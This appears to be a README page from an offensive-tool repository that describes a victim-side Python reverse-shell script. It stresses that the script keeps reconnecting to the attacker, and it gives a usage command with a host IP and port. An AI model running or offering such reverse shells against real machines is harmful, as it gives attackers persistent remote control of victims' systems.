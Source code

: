 ## Reverse shell victim side scripts

  
  

***[ex-rs-v-000001.py](https://github.com/IliyaBadri/Enterploit/blob/main/Exploits/Reverse-Shell/Victim/ex-rs-v-000001/ex-rs-v-000001.py)***:
This script reconnects to the attacker even after an error. This script also tries reconnecting even if the attacker is not present.

**Usage**

    python3 rs-v-000001.py -i 127.0.0.1 -p 8888
